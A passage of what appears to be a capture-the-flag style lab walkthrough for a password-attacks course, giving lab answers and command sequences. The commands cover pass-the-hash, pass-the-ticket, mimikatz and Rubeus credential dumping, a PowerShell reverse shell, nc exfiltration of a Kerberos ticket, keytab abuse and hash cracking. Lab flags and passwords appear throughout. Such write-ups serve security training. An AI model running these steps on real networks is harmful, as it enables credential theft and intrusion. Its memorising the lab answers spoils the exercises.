evil-winrm -i <target-IP> -u Administrator -H
30B3783CE2ABF1AF70F77D0660CF3453
```


*_Figure 40.1 — Lab execution and output verification (Page 40)_*


*_Figure 40.2 — Lab execution and output verification (Page 40)_*


> **Lab Question (Page 41)**: Try to connect via RDP using the Administrator hash. What is the name of the registry value that must be set to 0 for PTH over RDP to work? Change the registry key value and connect using the hash with RDP . Submit the name of the registry value name as the answer.
>
> **Flag / Answer**: `DisableRestrictedAdmin`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

from the section guide:
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa
/t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
the above command sets 'DisableRestrictedAdmin' registry value to 0.

*both commands and screen were directly taken from the section guide,
regarding the correct registry value that has to be set to 0 in order to enable
RDP . *


*_Figure 41.1 — Lab execution and output verification (Page 41)_*


*_Figure 41.2 — Lab execution and output verification (Page 41)_*


### we will get this error message

> **Lab Question (Page 42)**: Connect via RDP and use Mimikatz located in c:\tools to extract the hashes presented in the current session. What is the NTLM/RC4 hash of David's account?
>
> **Flag / Answer**: `c39f2beb3d2ec06a62cb887fb391dee0`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First lets try to RDP to the target machine without setting
'DisableRestrictedAdmin' value to 0, we will use the command:
```bash
xfreerdp /v:<target-IP> /u:Administrator
/pth:30B3783CE2ABF1AF70F77D0660CF3453 /dynamic-resolution
```
we will get this error message:

Ok lets evil-WinRM to the machine, set the 'DisableRestrictedAdmin' to 0 (with
the command from the previous question), and try RDP again:

Now lets try to RDP again (using the same RDP command):

And here we are!


*_Figure 42.1 — Lab execution and output verification (Page 42)_*


*_Figure 42.2 — Lab execution and output verification (Page 42)_*


*_Figure 42.3 — Lab execution and output verification (Page 42)_*


### We will open cmd AS ADMINISTRATOR, and run

Ok we are told we have mimikatz in 'C:\tools'
We will open cmd AS ADMINISTRATOR, and run:
.\mimikatz.exe
And we are on mimikatz CLI

In it, we run the miimikatz commands:
privilege::debug
sekurlsa::logonpasswords

somewhere within the results we will find David details and his NTLM hash:


*_Figure 43.1 — Lab execution and output verification (Page 43)_*


*_Figure 43.2 — Lab execution and output verification (Page 43)_*


### David obtained in the last question

> **Lab Question (Page 44)**: Using David's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\david and read the file david.txt.
>
> **Flag / Answer**: `D3V1d_Fl5g_is_Her3`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

open cmd on 'C:\tools', and run mimikatz command with the hash of
David obtained in the last question:
.\mimikatz.exe privilege::debug "sekurlsa::pth /user:david
/rc4:c39f2beb3d2ec06a62cb887fb391dee0
/domain:inlanefreight.htb /run:cmd.exe" exit

When we run the command, a new cmd terminal will be opened, lets run in the
new terminal:
dir \\dc01\david


There is a file of 'david.txt' – that is our flag.
Lets get it with the command:
type \\dc01\david\david.txt


*_Figure 44.1 — Lab execution and output verification (Page 44)_*


*_Figure 44.2 — Lab execution and output verification (Page 44)_*


### section, either way – the procedure will be shown in full

> **Lab Question (Page 45)**: Using Julio's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\julio and read the file julio.txt.
>
> **Flag / Answer**: `JuL1()_SH@re_fl@g`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will perform the exact same procedure of the previous question,
except: a. we replace 'david' with 'julio'; b. julio hash is provided for us by the
section, either way – the procedure will be shown in full:
*Note before we begin: in this answer I used capital letter hash (instead of
small letters used in previous question), both formats work. *
open cmd on 'C:\tools', and run mimikatz command with the provided hash of
Julio (from the section) with the commands:
```bash
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio
/rc4:64F12CDDAA88057E06A81B54E73B949B
/domain:inlanefreight.htb /run:cmd.exe" exit
```
*the hash of Julio is already provided for us in the section. *
When we run the command, a new cmd terminal will be opened, lets run:
dir \\dc01\julio


There is a file of 'julio.txt' – that is our flag.
Lets get it with the command:
type \\dc01\julio\julio.txt


*_Figure 45.1 — Lab execution and output verification (Page 45)_*


*_Figure 45.2 — Lab execution and output verification (Page 45)_*


### machine, we have the target machine 'MS01'

> **Lab Question (Page 46)**: Using Julio's hash, perform a Pass the Hash attack, launch a PowerShell console and import Invoke-TheHash to create a reverse shell to the machine you are connected via RDP (the target machine, DC01, can only connect to MS01). Use the tool nc.exe located in c:\tools to listen for the reverse shell. Once connected to the DC01, read the flag in C:\julio\flag.txt.
>
> **Flag / Answer**: `JuL1()_N3w_fl@g`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first let's establish our environment: we have the pwnbox attacking
machine, we have the target machine 'MS01':

That we RDP connected to from the pwnbox, it has interface faced to us (the
pwnbox), and another one faced to a second network.
And there is 'DC01' machine that is in the same second network with 'MS01',
and we can't directly connect with from the pwnbox (as it is 2 different
networks)
It is from 'DC01' we obtained the flags in the previous 2 questions.

Now that is established, in the tools folder there is a folder of 'Invoke-TheHash'

We will open 2 powershell terminals, one within that folder – we will call it is
terminal 1, and one in 'C:\tools', where – as can it be observed in the
screenshot, there is also 'nc.exe' netcat – we will call that terminal 2.


*_Figure 46.1 — Lab execution and output verification (Page 46)_*


*_Figure 46.2 — Lab execution and output verification (Page 46)_*


### specifications

#### Technical Methodology & Exploit Execution:

.\nc.exe -lvnp 4444


Now to terminal 1, before we create the reverse shellpayload, we will need the
MS01 IP , run
ipconfig


Now as established above, MS01 has 2 interfaces, we need the interface of the
network with the 'DC01', that would be Ethernet1 interface, therefore the
attacker IP is '172.16.1.5'.
Time to create the reverse shell payload, we will go to
`https://www.revshells.com/, and create the payload according those`
specifications:

The IP is the secondary network attacker IP (MS01 IP), and the port 4444


*_Figure 47.1 — Lab execution and output verification (Page 47)_*


*_Figure 47.2 — Lab execution and output verification (Page 47)_*


*_Figure 47.3 — Lab execution and output verification (Page 47)_*


### Now to the terminal 1 -  we will run the command

#### Technical Methodology & Exploit Execution:

```bash
Import-Module .\Invoke-TheHash.psd1
```
To import the module.
Then we run the command
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -
Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -
Command "powershell -e <base64 payload>"
Where the <base64 payload> is the same payload from the screenshot above

We will get on terminal 1 'Command executed' with process ID on DC01.
And on terminal 2:

We got a connection.
Lets confirm our identity (make sure we are indeed 'julio') with the command
'whoami', our hostname (DC01) and then cat the flag ('cat C:\julio\flag.txt'):


*_Figure 48.1 — Lab execution and output verification (Page 48)_*


*_Figure 48.2 — Lab execution and output verification (Page 48)_*


*_Figure 48.3 — Lab execution and output verification (Page 48)_*


*_Figure 48.4 — Lab execution and output verification (Page 48)_*


### can observe john's credentials

> **Lab Question (Page 49)**: Optional: John is a member of Remote Management Users for MS01. Try to connect to MS01 using john's account hash with impacket. What's the result? What happen if you use evil-winrm?. Mark DONE when finish.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

going back to the mimikatz credentials obtained on question 3, we
can observe john's credentials:

*Note – in question 3 I used cmd, in here powershell, it doesn't matters, the
command are the same commands. *
His NTLM hash is 'c4b0e1b10c7ce2c4723b4e2407ef81a2'.
Now that we know the hash, lets try the impacket, lets start with 'psexec' used
in the section guide. we will run the command:
```bash
impacket-psexec john@<target-IP> -hashes
```
:c4b0e1b10c7ce2c4723b4e2407ef81a2


*_Figure 49.1 — Lab execution and output verification (Page 49)_*


*_Figure 49.2 — Lab execution and output verification (Page 49)_*


### Lets try another impacket tool – wmiexec

The shares are not writables, access denied.
Lets try another impacket tool – wmiexec:
wmiexec.py john@`<target-IP>` -hashes
:c4b0e1b10c7ce2c4723b4e2407ef81a2


Again, no luck.
*other impacket tools suggested by the section's guide similarly didn't work. *

Now, lets try the evil-WinRM, we will use the command
```bash
evil-winrm -i <target-IP> -u john -H
c4b0e1b10c7ce2c4723b4e2407ef81a2
```


We are in. evil-winRM works.


*_Figure 50.1 — Lab execution and output verification (Page 50)_*


*_Figure 50.2 — Lab execution and output verification (Page 50)_*


### Pass the Ticket (PtT) from Windows

> **Lab Question (Page 51)**: Connect to the target machine using RDP and the provided creds. Export all tickets present on the computer. How many users TGT did you collect?
>
> **Flag / Answer**: `3`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP login to the target windows machine using the
provided Administrator credentials (in this particular case the password is
'AnotherC0mpl3xP4$$' so its very important to add quotation marks in the
```bash
xfreerdp command).
```
Lets open powershell in 'C:\tools' where we have mimikatz provided for us.
Lets run it with:
.\mimikatz.exe
We will be opened to mimikatz CLI, where we will run:
privilege::debug
sekurlsa::tickets /export
the powershell terminal will be full of all of the tickets data, but more
importantly to our objective – on the 'C:\tools' folder itself:

We will have the exported files. Now we need to deduce the amount of user
TGT collected.
We will see that the tgt files has in their names the word 'krbtgt' (Kerberos
ticket granting ticket). And to those files there are either before the 'krbtgt'
part – the hostname itself (MS01) succeeding with '$', separated from the
'krbtgt' part with '@', or the username itself, also separated from the 'krbtgt'
with '@'.


*_Figure 51.1 — Lab execution and output verification (Page 51)_*


### however excluding '$@krbtgt'

> **Lab Question (Page 52)**: Use john's TGT to perform a Pass the Ticket attack and retrieve the flag from the shared folder \\DC01.inlanefreight.htb\john
>
> **Flag / Answer**: `Learn1ng_M0r3_Tr1cks_with_J0hn`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

(Get-ChildItem -File | Where-Object { $_.Name -like
'*@krbtgt*' -and $_.Name -notmatch '\$@krbtgt' }).Count
The command will count all the files with has the occurrences of '@krbtgt',
however excluding '$@krbtgt':

*here is the section guide explanation about the files format regarding user's
tgt: 'The tickets that end with $ correspond to the computer account, which needs a ticket to
interact with the Active Directory. User tickets have the user's name, followed by an @ that
separates the service name and the domain, for example: [randomvalue]-username@service-
domain.local.kirbi.'. *


Question: Use john's TGT to perform a Pass the Ticket attack and retrieve the
flag from the shared folder \\DC01.inlanefreight.htb\john
Answer: Learn1ng_M0r3_Tr1cks_with_J0hn
Method: from the list of output files obtained in the previous question, the file
that is relevant for our objective is '[0;4adfa]-2-0-40e10000-john@krbtgt-
INLANEFREIGHT.HTB.kirbi'.
On mimikatz CLI, we will enter the command:
kerberos::ptt [0;4adfa]-2-0-40e10000-john@krbtgt-
INLANEFREIGHT.HTB.kirbi
and we will get an ok:

Now we should have access to '\\DC01.inlanefreight.htb\john',
Lets confirm with 'ls':
```bash
ls \\DC01.inlanefreight.htb\john
```


*_Figure 52.1 — Lab execution and output verification (Page 52)_*


*_Figure 52.2 — Lab execution and output verification (Page 52)_*


### Here is our flag lets cat it

> **Lab Question (Page 53)**: Use john's TGT to perform a Pass the Ticket attack and connect to the DC01 using PowerShell Remoting. Read the flag from C:\john\john.txt
>
> **Flag / Answer**: `P4$$_th3_Tick3T_PSR`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

proceeding from the end of the last question, we enter to the
powershell:
Enter-PSSession -ComputerName DC01
And now we are connected to DC01

Lets cat the flag:


*_Figure 53.1 — Lab execution and output verification (Page 53)_*


*_Figure 53.2 — Lab execution and output verification (Page 53)_*


*_Figure 53.3 — Lab execution and output verification (Page 53)_*


*_Figure 53.4 — Lab execution and output verification (Page 53)_*


### Lets open there powershell and run

> **Lab Question (Page 54)**: Optional: Try to use both tools, Mimikatz and Rubeus, to perform the attacks without relying on each other. Mark DONE when finish.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

ok in the section itself I used mimikatz, lets redo the 3 section
questions with Rubeus (for that I restarted the target machine):
```bash
Rubeus, like mimikatz – is in 'C:\tools'.
```
Lets open there powershell and run:
.\Rubeus.exe dump /nowrap
In here we don't get the output as files but directly to the terminal:


What we care about is the 'Base64EncodedTicket'
We will use to to import Ticket, We will proceed with the command:
.\Rubeus.exe ptt /ticket:`<Base64EncodedTicket>`


*_Figure 54.1 — Lab execution and output verification (Page 54)_*


*_Figure 54.2 — Lab execution and output verification (Page 54)_*


*
*

Ticket successfully imported.
Now we may proceed in the same manner as the mimikatz equivalent:


*_Figure 55.1 — Lab execution and output verification (Page 55)_*


*_Figure 55.2 — Lab execution and output verification (Page 55)_*


*_Figure 55.3 — Lab execution and output verification (Page 55)_*


### Pass the Ticket (PtT) from Linux

> **Lab Question (Page 56)**: Connect to the target machine using SSH to the port TCP/2222 and the provided credentials. Read the flag in David's home directory.
>
> **Flag / Answer**: `Gett1ng_Acc3$$_to_LINUX01`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets ssh login to the target linux machine, with the provided
credentials to port 2222 – as instructed. We will use the command:
```bash
ssh david@inlanefreight.htb@<target-IP> -p 2222
```
*the provided username for this section is 'david@inlanefreight.htb'. *
Then – we enter the provided password:

*
*

We are in david's home directory.
In the following 2 commands, we will confirm flag existence and read it:
ls
```bash
cat flag.txt
```


*_Figure 56.1 — Lab execution and output verification (Page 56)_*


*_Figure 56.2 — Lab execution and output verification (Page 56)_*


*_Figure 56.3 — Lab execution and output verification (Page 56)_*


### Now, we will run on the linux machine the command

> **Lab Question (Page 57)**: Which group can connect to LINUX01?
>
> **Flag / Answer**: `Linux Admins`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first – Linux01 is our target windows machine (the one we had just
```bash
ssh connected to in the previous question).
```
Now, we will run on the linux machine the command:
realm list


And we will find the answer in the last category.


*_Figure 57.1 — Lab execution and output verification (Page 57)_*


### 'find' command

> **Lab Question (Page 58)**: Look for a keytab file that you have read and write access. Submit the file name as a response.
>
> **Flag / Answer**: `carlos.keytab`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will have to look for such keytab file with the command:
```bash
find / -name *keytab* -ls 2>/dev/null
```
the command will look for all files (and directories) which in their name contain
the string 'keytab', and the '-ls' serves the same functionality as 'ls -l' but in
'find' command:

We can observe that 'carlos.keytab' has read and write permissions to
everyone, including us.

Question: Extract the hashes from the keytab file you found, crack the
password, log in as the user and submit the flag in the user's home directory.
Answer: C@rl0s_1$_H3r3
Method: first small explanation about keytab from the section:
'A keytab is a file containing pairs of Kerberos principals and encrypted keys (which are
derived from the Kerberos password).'.
Now for the extraction -we will use the tool 'KeyTabExtract', which in the target
machine 'LINUX01' is provided for us in '/opt' directory as
'/opt/keytabextract.py'.
We will run the command:
```bash
python3 /opt/keytabextract.py
/opt/specialfiles/carlos.keytab
```
*where '/opt/specialfiles/carlos.keytab' is the file with the user read&write
pemission found in the previous question. *:


*_Figure 58.1 — Lab execution and output verification (Page 58)_*


### crackstation online cracking

We have carlos's NTLM hash – lets crack it – usually we crack the password
with hashcat (using some wordlist of rockyou or the password.list from the
resources bag), but this time we will go with the section suggested method -
crackstation online cracking:

When entering the obtained NTLM hash in there – we can see the cleartext
password is 'Password5'.

Now we can proceed with either
su carlos@inlanefreight.htb
on 'LINUX01' to directly login as 'carlos@inlanefreight.htb':


Or start another ssh session from the pwnbox:
```bash
ssh carlos@inlanefreight.htb@<target-IP> -p 2222
```


*_Figure 59.1 — Lab execution and output verification (Page 59)_*


*_Figure 59.2 — Lab execution and output verification (Page 59)_*


*_Figure 59.3 — Lab execution and output verification (Page 59)_*


*
*

*the ssh method is more recommended as we login directly to carlos's home
directory, unlike the su method that will require change directory command
first. *

Either way the next command (from the ssh method) is
```bash
cat flag.txt
```


*_Figure 60.1 — Lab execution and output verification (Page 60)_*


*_Figure 60.2 — Lab execution and output verification (Page 60)_*


*_Figure 60.3 — Lab execution and output verification (Page 60)_*


### crontab tasks with the command

> **Lab Question (Page 61)**: Check Carlos' crontab, and look for keytabs to which Carlos has access. Try to get the credentials of the user svc_workstations and use them to authenticate via SSH. Submit the flag.txt in svc_workstations' home directory.
>
> **Flag / Answer**: `Mor3_4cce$$_m0r3_Pr1v$`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

on 'carlos@inlanefreight.htb' user on 'LINUX01' host – lets get to his
crontab tasks with the command:
crontab -l


*
*

The tasks means that '~/.scripts/Kerberos_script_test.sh' is being executed
every 5 minutes.
Looking at the script:

The .sh script will attempt to Kerberos authenticate as 'svc_workstations' – and
if successful it puts the TGT in a cache (command 1), then – it will attempt to
```bash
use the cached TGT to smb connect to dc01, and put the 'ls' content in the
'script-test-results' file.
```

Well the sh script makes me wonder what else in the '.scripts' directory:
```bash
ls .scripts
```


*_Figure 61.1 — Lab execution and output verification (Page 61)_*


*_Figure 61.2 — Lab execution and output verification (Page 61)_*


*_Figure 61.3 — Lab execution and output verification (Page 61)_*


### Lets use 'KeyTabExtract' on both files

So regarding 'svc_workstations' – we have 'svc_workstations.kt' , and
'svc_workstations._all.kt' – where 'kt' must be 'keytabs'.
Lets use 'KeyTabExtract' on both files:
```bash
python3 /opt/keytabextract.py .scripts/svc_workstations.kt
```

```bash
python3 /opt/keytabextract.py
.scripts/svc_workstations._all.kt
```


The NTLM hash is in 'svc_workstations._all.kt'
Running it in crackstation:

'svc_workstations' password is 'Password4'


*_Figure 62.1 — Lab execution and output verification (Page 62)_*


*_Figure 62.2 — Lab execution and output verification (Page 62)_*


*_Figure 62.3 — Lab execution and output verification (Page 62)_*


### Lets ssh login to his account

> **Lab Question (Page 63)**: Check the sudo privileges of the svc_workstations user and get access as root. Submit the flag in /root/flag.txt directory as the response.
>
> **Flag / Answer**: `Ro0t_Pwn_K3yT4b`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets begin with checking 'svc_workstations' sudo rights:
```bash
sudo -l
enter 'svc_workstations' password at prompt:
```

We have 'ALL' rights, meaning we can do (almost) everything, within the
'LINUX01' target machine.
Including using sudo to cat the flag in '/root':
```bash
sudo cat /root/flag.txt
```


*_Figure 63.1 — Lab execution and output verification (Page 63)_*


*_Figure 63.2 — Lab execution and output verification (Page 63)_*


*_Figure 63.3 — Lab execution and output verification (Page 63)_*


*_Figure 63.4 — Lab execution and output verification (Page 63)_*


*_Figure 63.5 — Lab execution and output verification (Page 63)_*


### to see what we have in '/tmp'

> **Lab Question (Page 64)**: Check the /tmp directory and find Julio's Kerberos ticket (ccache file). Import the ticket and read the contents of julio.txt from the domain share folder \\DC01\julio.
>
> **Flag / Answer**: `JuL1()_SH@re_fl@g`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this step, we will have to move to root user.
Using sudo (which svc_workstations has) – we will run the commands:
```bash
sudo su
cd /root
```


Now, lets run
```bash
ls -la /tmp
```
to see what we have in '/tmp':

It seems there are 2 tickets which are belong to 'julio', (I don't know why there
are 2, either way we pick the bottom one (the one which ends with 'wr').
*The bottom value constantly changes while the top one whose suffix is 'Dux' is
constant. The constant one will not work, only the bottom one, why? I don't
know. But we go on with that. *

Lets copy the file to '/root' , then export it to 'KRB5CCNAME' environment
variable (the one used for Kerberos authentication), we will use the commands:
cp /tmp/krb5cc_647401106_OLAzwr .
```bash
export KRB5CCNAME=/root/krb5cc_647401106_OLAzwr
```


*_Figure 64.1 — Lab execution and output verification (Page 64)_*


*_Figure 64.2 — Lab execution and output verification (Page 64)_*


### (root directory)

#### Technical Methodology & Exploit Execution:

```bash
smbclient //dc01/julio -k -c ls -no-pass
```
running ls on dc01/julio home directory, as instructed in the question

Lets get julio.txt – we will use 'get' to get the flag from DC01/julio to 'LINUX01'
(root directory):
```bash
smbclient //dc01/julio -k -c 'get julio.txt' -no-pass
```


Now the flag is in 'LINUX01' ('/root' directory).
Lets get the flag's name with ls – then when we know what it is – we cat it:
ls


The flag is 'julio.txt' – lets cat it:


*_Figure 65.1 — Lab execution and output verification (Page 65)_*


*_Figure 65.2 — Lab execution and output verification (Page 65)_*


*_Figure 65.3 — Lab execution and output verification (Page 65)_*


*_Figure 65.4 — Lab execution and output verification (Page 65)_*


*_Figure 65.5 — Lab execution and output verification (Page 65)_*


> **Lab Question (Page 66)**: Use the LINUX01$ Kerberos ticket to read the flag found in \\DC01\linux01. Submit the contents as your response (the flag starts with Us1nG_).
>
> **Flag / Answer**: `Us1nG_KeyTab_Like_@_PRO`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first lets try to get it with julio kerberos ticket with the command:
```bash
smbclient //dc01/linux01 -k -c 'ls' -no-pass
```


Access denied.
We have to find a keytab file of 'linux01' and use it to connect to linux01 share.
But where is this keytab file?
We will have to use the tool 'Linikatz' – a similar Mimikatz but to unix.
We will download it to the pwnbox, and then with temporary python server we
will transfer it to the target 'LINUX01' machine.
On pwnbox we will run
```bash
python -m http.server 8080
```

and on client 'LINUX01' we will run
```bash
wget http://<attacker-IP>:8080/linikatz.sh -outfile
```
linikatz.sh

when downloaded, we will confirm download on the target machine:

*remember that we are still on root from last question. *
Lets enable execution permission
```bash
chmod u+x linikatz.sh
```
*we can confirm we have permissions with 'ls -l linikatz.sh'


*_Figure 66.1 — Lab execution and output verification (Page 66)_*


*_Figure 66.2 — Lab execution and output verification (Page 66)_*


### that will not be relevant, so we will run with the command

#### Technical Methodology & Exploit Execution:

./linikatz.sh | grep linux01 -i -B 1
'-i' is for insensitive casing between big letters and small letters, and '-B1' is to
print the line with the keyword 'linux01', and the line above it (soon we will see
why):

Here we have the 'LINUX01', and line above it the file full path location.
Lets assign the found path to the 'KRB5CCNAME' environment variable:
```bash
export KRB5CCNAME=/var/lib/sss/db/ccache_INLANEFREIGHT.HTB
```
lets confirm with 'klist':


Now lets try to run again:
```bash
smbclient //dc01/linux01 -k -c 'ls' -no-pass
```


Lets get the flag, confirm it with 'ls' and 'cat' it:


*_Figure 67.1 — Lab execution and output verification (Page 67)_*


*_Figure 67.2 — Lab execution and output verification (Page 67)_*


*_Figure 67.3 — Lab execution and output verification (Page 67)_*


### Then we run 'ls'

```bash
smbclient //dc01/linux01 -k -c 'get flag.txt' -no-pass
```


Then we run 'ls':

*the smb download of 'flag.txt' overwritten the previous original 'flag.txt' that
were in '/root'. *

And
```bash
cat flag.txt
```


*ignore those 2 '??' symbols. *


*_Figure 68.1 — Lab execution and output verification (Page 68)_*


*_Figure 68.2 — Lab execution and output verification (Page 68)_*


*_Figure 68.3 — Lab execution and output verification (Page 68)_*


### We will use nc for that

> **Lab Question (Page 69)**: Transfer Julio's ccache file from LINUX01 to your attack host. Follow the example to use chisel and proxychains to connect via evil- winrm from your attack host to MS01 and DC01. Mark DONE when finished.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will have to transfer Julio's ccache file from Linux01 to the
pwnbox.
We will use nc for that:
Receiver (run on attacking pwnbox):
```bash
nc -l -p 4444 > received
```

Sender:
```bash
nc <attacker-IP> 4444 < /tmp/krb5cc_647401106_NzSbv5
```

when the file is transferred, we will have Julio's ccache file ('received') in the
pwnbox.

Now lets make the necessary pivoting modifications to allow the pwnbox to
directly reach to MS01 and DC01 machines (which are currently reachable from
'LINUX01' only).
On 'LINUX01) lets run:
```bash
nslookup ms01
nslookup dc01
```
ms01 IP - 172.16.1.5, dc01 IP – 172.16.1.10


*_Figure 69.1 — Lab execution and output verification (Page 69)_*


### On pwnbox – lets run

> **Lab Question (Page 70)**: From Windows (MS01), export Julio's ticket using Mimikatz or Rubeus. Convert the ticket to ccache and use it from Linux to connect to the C disk. Mark DONE when finished.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

*** TO BE COMPLETED***


*_Figure 70.1 — Lab execution and output verification (Page 70)_*


### Protected Files

> **Lab Question (Page 71)**: Use the cracked password of the user Kira and log in to the host and crack the "id_rsa" SSH key. Then, submit the password for the SSH key as the answer.
>
> **Flag / Answer**: `L0veme`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in this section we are not told what machine we are dealing with.
Lets run 'nmap' on the target machine:
```bash
nmap <target-IP> -sV -p 1-7500
```


We are dealing with a linux machine, running among others ssh.
Now, we are told to use kira credentials, those that were obtained in the
section 'Credential Hunting in Linux', and back then were used to ssh login to
the machine, so it makes sense to ssh login to the target machine.
The credentials are 'kira:L0vey0u1!' , lets ssh login to the target Linux machine
with the command:
```bash
ssh kira@<target-IP>
```
and then enter the password.


*_Figure 71.1 — Lab execution and output verification (Page 71)_*


*_Figure 71.2 — Lab execution and output verification (Page 71)_*


### '~/.ssh/id_rsa' in linux machine – lets check that

#### Technical Methodology & Exploit Execution:

ssh2john.py ssh_private_key > ssh_private_key.hash
to get the corresponding hashes and output them to a file called
'ssh_private_key.hash':


Now lets use 'john the ripper' to crack the hashes, along with rockyou wordlist


*_Figure 72.1 — Lab execution and output verification (Page 72)_*


*_Figure 72.2 — Lab execution and output verification (Page 72)_*


*_Figure 72.3 — Lab execution and output verification (Page 72)_*


*_Figure 72.4 — Lab execution and output verification (Page 72)_*


### We will run the command

#### Technical Methodology & Exploit Execution:

```bash
john --wordlist=rockyou.txt ssh_private_key.hash
```


The password is 'L0veme'


*_Figure 73.1 — Lab execution and output verification (Page 73)_*


### Protected Archives

> **Lab Question (Page 74)**: Use the cracked password of the user Kira, log in to the host, and read the Notes.zip file containing the flag. Then, submit the flag as the answer.
>
> **Flag / Answer**: `HTB{ocnc7r4io8ucsj8eujcm}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets ssh login to kira user ('kira:L0vey0u1!') in the same manner
logged as the previous question (I skip here the nmap, ssh and all that, refer to
the previous section for that).
We will have to find Notes.zip in the target machine, we will run the command:
```bash
find / -name Notes.zip 2>/dev/null
```
the fill will be found in kira's Documents:


For convenience, I copied the file from Documents for kira's home directory
cp Documents/Notes.zip Notes.zip

We will have to transfer the file from the target machine to the attacking
pwnbox for further analysis.
Luckily we have python3 on the target machine, so lets set up temporary
```bash
python server on the target machine:
python3 -m http.server 8080
```


and while the server is running - on client (pwnbox), we run the command:
```bash
wget http://<target-IP>:8080/Notes.zip -outfile Notes.zip
```
when downloaded, we can confirm download with 'ls Notes.zip':


*_Figure 74.1 — Lab execution and output verification (Page 74)_*


*_Figure 74.2 — Lab execution and output verification (Page 74)_*


*_Figure 74.3 — Lab execution and output verification (Page 74)_*


### we will use the command

#### Technical Methodology & Exploit Execution:

zip2john Notes.zip > Notes.hash
to get the hashes to the output file 'Notes.hash'

before we crack, we will need a passwordlist, lets get the passwords from the
resources folder, and generate the mutated password list with the command:
```bash
hashcat --force password.list -r custom.rule --stdout | sort
-u > mut_password.list
```
it is the same procedure done before regarding the mutated passwords list.

Once that we have that, we may start cracking using 'john the ripper', using the
command:
```bash
john --wordlist=mut_password.list Notes.hash
```


And the password is successfully obtained. Now we can unzip 'Notes.zip':
We enter the obtained password:

And all we have to do now is cat notes.txt:


*_Figure 75.1 — Lab execution and output verification (Page 75)_*


*_Figure 75.2 — Lab execution and output verification (Page 75)_*


*_Figure 75.3 — Lab execution and output verification (Page 75)_*


### Capstone: Skills Assessment

> **Lab Question (Page 76)**: Examine the first target and submit the root password as the answer.
>
> **Flag / Answer**: `dgb6fzm0ynk@AME9pqu`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first lets nmap scan the target machine:
```bash
nmap <target-IP> -sV -p 1-7500
```


We are dealing with a Linux machine running ftp and ssh.
We don't have any credentials for login, so lets try to obtain some.
Lets try to bruteforce the ftp service with the resources folder usernames and
passwords. We will use the command:
```bash
hydra -L username.list -P password.list ftp://<target-IP> -t
48
```


*_Figure 76.1 — Lab execution and output verification (Page 76)_*


*_Figure 76.2 — Lab execution and output verification (Page 76)_*


### the commands

After approximately 20 minutes of bruteforcing, we get a credential for the ftp
service – 'mike:7777777'.
Attempting to ssh enter with the credentials that were found:

It tells us we need a public key, this ssh service will not accept passwords.
So lets get a public key.
Lets ftp (which stands for File Transfer Protocol) with his account, we will use
the commands:
`ftp -n <target-IP>`
user mike
then we enter his password:

And we are in, and we are presented with the ftp CLI.
Lets enter
ls
in it:

There are 3 files – authorized_keys, id_rsa, id_rsa.pub


*_Figure 77.1 — Lab execution and output verification (Page 77)_*


*_Figure 77.2 — Lab execution and output verification (Page 77)_*


*_Figure 77.3 — Lab execution and output verification (Page 77)_*


### Lets confirm download with 'ls'

#### Technical Methodology & Exploit Execution:

get id_rsa


Lets confirm download with 'ls':

Ok we have the key, lets use that to ssh connect to mike user. we will use the
command:
```bash
ssh -i ./id_rsa mike@<target-IP>
```


And access denied due to file permissions are too open, it tells us that the
permissions are '0644', which means non-owner can read the file.


*_Figure 78.1 — Lab execution and output verification (Page 78)_*


*_Figure 78.2 — Lab execution and output verification (Page 78)_*


*_Figure 78.3 — Lab execution and output verification (Page 78)_*


### this file. We will do that with the command

#### Technical Methodology & Exploit Execution:

```bash
chmod 600 ./id_rsa
```
we can confirm the current permissions status in NUMERICAL FORMAT with
the command:
stat -c "%a" id_rsa


600 means non owner can not read (or do anything) the file.
For further info about Linux file permissions, click here.
Lets try to ssh connect again to mike's user:

*
*

Linux user's home directory should have the hidden file '.bash_history', lets run
'ls -a' ('-a' is for show hidden files as well) to confirm:

Here it is, this file contains all past commands executed by 'mike' , lets
investigate that file for any root related commands, we will use the command:
```bash
cat .bash_history | grep root
```
and the root's password is right here:


*_Figure 79.1 — Lab execution and output verification (Page 79)_*


*_Figure 79.2 — Lab execution and output verification (Page 79)_*


*_Figure 79.3 — Lab execution and output verification (Page 79)_*


*_Figure 79.4 — Lab execution and output verification (Page 79)_*


*_Figure 79.5 — Lab execution and output verification (Page 79)_*


### Password Attacks Lab - Medium

> **Lab Question (Page 80)**: Examine the second target and submit the contents of flag.txt in /root/ as the answer.
>
> **Flag / Answer**: `HTB{PeopleReuse_PWsEverywhere!}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first lets nmap scan the target machine:
```bash
nmap <target-IP> -sV -p 1-7500
```


Our target is running ssh and smb.
Lets try to bruteforce the smb service in the same metasploit method used in
'Network Services' section:
we will execute Metasploit with:
```bash
msfconsole
```
command, then we will enter the settings:
```bash
use auxiliary/scanner/smb/smb_login
set user_file username.list
set pass_file password.list
set rhosts <target-IP>
```
